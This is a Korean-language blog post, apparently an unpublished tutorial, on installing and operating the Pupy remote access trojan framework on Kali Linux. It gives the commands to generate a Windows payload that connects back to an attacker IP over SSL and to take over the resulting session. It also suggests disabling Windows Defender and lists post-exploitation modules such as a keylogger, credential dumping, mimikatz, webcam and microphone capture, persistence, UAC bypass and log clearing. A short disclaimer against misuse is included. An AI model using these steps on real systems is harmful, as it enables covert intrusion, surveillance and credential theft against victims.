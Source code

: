 ```yaml
---
layout: post
title: ! "[Kali] PUPY 설치 및 사용법"
categories: [Kali]
excerpt: " "
comments: true
share: true
published : false
tags:
  - Kali Linux
  - Pupy
  - install
---
```


## 설치

### 환경 : Kali Linux,VMware Workstation 12 pro

참고 : https://github.com/n1nj4sec/pupy
```
git clone https://github.com/n1nj4sec/pupy.git pupy
cd pupy
git submodule init
git submodule update
pip install -r pupy/requirements.txt
wget https://github.com/n1nj4sec/pupy/releases/download/latest/payload_templates.txz
tar xvf payload_templates.txz && mv payload_templates/* pupy/payload_templates/ && rm payload_templates.txz && rm -r payload_templates
```

#### PUPY 설치
 1. git clone https://github.com/n1nj4sec/pupy.git
![]({{ site.baseurl }}/assets/posts/kali/pupy_git.png)
 2. cd pupy
 3. git submodule init
![]({{ site.baseurl }}/assets/posts/kali/pupy_init.png)

 4. git submodule update
![]({{ site.baseurl }}/assets/posts/kali/pupy_update.png)

 5. pip install -r pupy/requirements.txt

★설치가 안되거나 에러가 발생하는 경우 밑에 필요하다고 뜨는 것들을 설치해보면서 에러를 해결하시면 됩니다.


## 사용법
★공격자 ip는 ifconfig로 확인하시길 바랍니다.
![]({{ site.baseurl }}/assets/posts/kali/pupy_ifconfig.png)

```
./pupygen.py -O (타겟의 운영체제) -A (타겟의 아키텍쳐) -o (파일명.확장자) connect --host  (공격자 IP) --transport ssl 

./pupygen.py  -O windows -A x64 -o MitNy.exe  connect --host 000.000.000.000 --transport ssl
```

![]({{ site.baseurl }}/assets/posts/kali/pupy_gen.png)
저는 파일을 예전에 만들어놨고, VM이 아닌 제 컴퓨터에 직접 파일을 설치해놨었기 때문에 그것을 사용하겠습니다.(mitny.exe)
자신의 컴퓨터에 직접 테스트를 해보고싶으시면 Windows defender를 끄고 해보세요.
(절대 악의적인 목적으로 타인의 컴퓨터에 사용하지 마세요. 법적인 책임은 본인에게 있습니다.)

![]({{ site.baseurl }}/assets/posts/kali/pupy_mitny.png)


- pupysh.py 파일 실행

- 패스워드 입력 후 타겟 컴퓨터에서 위에서 만든 파일 실행 시 세션이 잡힘.

- sessions -i 1 -> Session 1이 타겟이 됨


![]({{ site.baseurl }}/assets/posts/kali/pupy_start.png)

`- info 입력시 타겟의 정보가 출력됨`

![]({{ site.baseurl }}/assets/posts/kali/pupy_info.png)

★ list_modules를 치면 사용 가능한 명령어 리스트를 볼 수 있습니다.

```
admin/beroot                 Windows Privilege Escalation
admin/clear_logs             Clear Event Logs
admin/dns                    Retrieve Domain Name From Ip And Vice Versa
admin/drives                 List Valid Drives In The System
admin/getdomain              Get Primary Domain Controller
admin/igd                    Upnp Igd Client
admin/interactive_shell      Open An Interactive Command Shell With A Nice Tty
admin/pexec                  Execute Shell Commands Non-Interactively On A Remote System In Background Using Popen
admin/psexec                 Launch Remote Commands Using Smbexec Or Wmiexec
admin/psh                    Load/Execute Powershell Scripts
admin/pyexec                 Execute Python Code On A Remote System
admin/pyshell                Open An Interactive Python Shell On The Remote Client
admin/rdesktop               Start A Remote Desktop Session Using A Browser Websocket Client
admin/rdp                    Enable / Disable Rdp Connection Or Check For Valid Credentials On A Remote Host
admin/scapy_shell            Open An Interactive Python Shell On The Remote Client
admin/shares                 List Local And Remote Shared Folder And Permission
admin/shell_exec             Execute Shell Commands On A Remote System
admin/smb                    Copy Files Via Smb Protocol
admin/smbspider              Walk Through A Smb Directory And Recursively Search A String Into Files
admin/ssh                    Ssh Client
admin/zip                    Zip / Unzip File Or Directory
creds/changeme               Default Credential Scanner
creds/creddump               Download The Hives From A Remote Windows System And Dump Creds
creds/lazagne                Retrieve Passwords Stored On The Target
creds/loot_memory            Crawl Processes Memory And Look For Cleartext Credentials
creds/memstrings             Dump Printable Strings From Process Memory For Futher Analysis
exploit/exploit_suggester    Exploit Suggester
exploit/impersonate          List/Impersonate Process Tokens
exploit/mimikatz             Execute Mimikatz From Memory
exploit/shellcode_exec       Executes The Supplied Shellcode On A Client
gather/check_vm              Check If Running On Virtual Machine
gather/cloudinfo             Retrieve Ec2/Digitalocean Metadata
gather/get_hwuuid            Try To Get Uuid (Dmi) Or Machine-Id (Dbus/Linux)
gather/get_info              Get Some Informations About One Or Multiple Clients
gather/keylogger             A Keylogger To Monitor All Keyboards Interaction Including The Clipboard :-)
gather/mouselogger           Log Mouse Clicks And Take Screenshots Of Areas Around It
gather/netcreds              Sniffs Cleartext Passwords From Interface
gather/outlook               Interact With Outlook Session Of The Targeted User
gather/powerview             Execute Powerview Commands
gather/pywerview             Rewriting Of Some Powerview'S Functionalities In Python
gather/record_mic            Record Sound With The Microphone !
gather/screenshot            Take A Screenshot :)
gather/search                Walk Through A Directory And Recursively Search A String Into Files
gather/users                 Get Interactive Users
gather/webcamsnap            Take A Webcam Snap :)
general/process_kill         Kill A Process
manage/download              Download A File/Directory From A Remote System
manage/duplicate             Duplicate The Current Pupy Payload By Executing It From Memory
manage/getprivs              Manage Current Process Privileges
manage/lock_screen           Lock The Session
manage/memory_exec           Execute A Executable From Memory
manage/migrate               Migrate Pupy Into Another Process Using Reflective Dll Injection
manage/persistence           Enables Persistence Via Registry Keys
manage/upload                Upload A File/Directory To A Remote System
network/forward              Local/Remote Port Forwarding And Socks Proxy
network/nbnsspoof            Sniff For Nbns Requests And Spoof Nbns Responses
network/port_scan            Run A Tcp Port Scan
network/portfwd              Perform Local/Remote Port Forwarding Using Openssh -L/-R Syntax
network/socks5proxy          Start A Socks5 Proxy Going Through A Client
network/tcpdump              Module To Reproduce Some Of The Classic Tcpdump Tool Functions
privesc/bypassuac            Try To Bypass Uac
privesc/getsystem            Try To Get Nt Authority System Privileges
privesc/inveigh              Execute Inveigh Commands
troll/msgbox                 Pop Up A Custom Message Box
```

